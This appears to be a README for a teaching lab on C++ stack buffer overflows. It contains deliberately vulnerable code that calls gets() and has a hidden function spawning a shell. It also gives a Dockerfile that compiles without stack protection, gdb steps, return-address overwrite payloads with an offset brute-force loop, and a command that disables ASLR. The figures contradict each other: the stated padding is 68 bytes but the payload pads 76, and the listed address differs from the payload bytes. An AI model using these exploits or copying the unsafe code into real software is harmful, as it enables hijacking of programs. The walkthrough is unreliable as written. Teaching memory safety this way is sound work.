 # ###🛡️ Teaching Buffer Overflow in C++
# Clone the Repository 
```
git clone git@github.com:gtoscano/buffer-overflow.git
```
# Objective
👨‍🏫 **Objective**: Understand how unsafe input functions in C/C++ can be exploited to alter program flow.

---

## 🧠 What You’re About to Do

We'll exploit a simple C++ program that:

1. Uses `gets()` (unsafe)
2. Has a 64-byte buffer on the stack
3. Fails to check input size

👾 **Goal**: Redirect execution to a hidden `secret()` function.

---

## 🧪 The Vulnerable Code

```cpp
#include <iostream>
#include <cstdio>
#include <cstdlib>

void secret() {
    std::cout << "Access granted to secret!\n";
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    std::cout << "Enter text: ";
    gets(buffer);  // 💣 buffer overflow possible here!
}

int main() {
    vulnerable();
    return 0;
}
```

---

## 🐳 Set Up the Environment

```dockerfile
FROM ubuntu:12.04

RUN sed -i 's|archive.ubuntu.com|old-releases.ubuntu.com|g' /etc/apt/sources.list && \
    apt-get update && apt-get install -y build-essential gdb && apt-get clean

COPY vuln.cpp /vuln.cpp
RUN g++ -fno-stack-protector -z execstack vuln.cpp -o vuln
CMD ["/bin/bash"]
```

---

## 🔍 Step 1: Find `secret()` Address

Run:

```bash
gdb ./vuln
```

Then in `gdb`:

```gdb
info functions secret
```

Example output:

```
0x080484b6  secret()
```

---

## 🧮 Step 2: Calculate Overflow

Stack layout in `vulnerable()`:

```
[ buffer (64 bytes) ]
[ saved EBP (4 bytes) ]
[ return address (4 bytes) ] 👈 we overwrite this
```

➡️ Total: **68 bytes padding** + 4 bytes address

---

## 💥 Step 3: Craft the Payload

Assuming `secret()` is at `0x080484b6`:

```bash
python -c 'print "A"*76 + "\x74\x86\x04\x08"' > payload
```
or:

```bash
for i in $(seq 60 78); do
  echo "Trying offset: $i"
  python -c "print 'A'*$i + '\x74\x86\x04\x08'" > payload
  ./vuln < payload && echo "💥 Success at offset $i!"
done
```


Run the attack:

```bash
./vuln < payload
```

💡 If successful: you get a shell!

---

## 🚧 Disable ASLR (for predictability)

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

This ensures addresses like `0x080484b6` are stable.

---

## 🧠 Learning Takeaways

✅ Stack layout  
✅ Unsafe input = security risk  
✅ Return address hijack  
✅ Importance of memory-safe coding

---

## 🙏 Use Responsibly

- **For educational purposes only**
- Never exploit systems without permission
- Use modern practices: `fgets`, stack canaries, ASLR, PIE, etc.

---

# 🎓 Thank You!

Questions?  
Let's explore secure coding together!
